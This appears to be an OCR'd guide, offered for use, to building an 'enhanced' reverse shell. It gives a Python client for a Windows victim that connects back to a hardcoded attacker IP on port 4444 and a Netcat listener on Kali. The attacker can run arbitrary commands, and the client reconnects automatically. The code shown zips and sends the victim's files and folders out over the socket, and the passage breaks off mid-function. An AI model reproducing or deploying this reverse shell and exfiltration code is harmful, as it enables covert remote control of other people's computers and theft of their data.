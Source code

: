 Full Explanation and Enhanced Reverse Shell Approach

In this guide, I will provide you with an improved, more robust approach for creating a reverse shell using Python on the victim machine (Windows) and Netcat on the attacker's machine (Kali Linux). I'll also suggest an additional method using PowerShell for Windows-based reverse shell exploitation.
Goals of the Reverse Shell:

    Victim Side (Windows):

        Establish a connection back to the attacker machine.

        Handle file upload and download.

        Execute arbitrary system commands on the victim machine.

        Reconnect automatically if the connection is lost.

        Log commands executed and their results.

    Attacker Side (Kali Linux):

        Set up a Netcat listener to interact with the victim.

        Send commands to be executed on the victim machine.

        Receive file uploads from the victim.

Step-by-Step Guide
1. Python Reverse Shell Script on Victim Side (Windows 11)

This script connects back to the attacker's machine and allows the attacker to send commands for execution. It supports file uploading and downloading, and the connection will automatically attempt to reconnect if it is lost.
Python Reverse Shell Script

import socket
import subprocess
import os
import time
import zipfile

# Configuration
server_addr = '93.172.215.120'  # Replace with the attacker's IP address
server_port = 4444  # Port to listen on

soc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Function to upload a file/folder from the victim to the attacker
def upload_file(file_path):
    if os.path.isdir(file_path):  # If it's a folder, zip it first
        try:
            zip_path = f"{file_path}.zip"
            with zipfile.ZipFile(zip_path, 'w', zipfile.ZIP_DEFLATED) as zipf:
                for root, dirs, files in os.walk(file_path):
                    for file in files:
                        zipf.write(os.path.join(root, file), os.path.relpath(os.path.join(root, file), file_path))
            # Send the zip file
            with open(zip_path, 'rb') as f:
                file_data = f.read()
                soc.send(file_data)
            os.remove(zip_path)  # Optionally remove the zip file after sending
            return "Folder uploaded successfully."
        except Exception as e:
            return f"Error uploading folder: {str(e)}"
    else:  # If it's a regular file, send it directly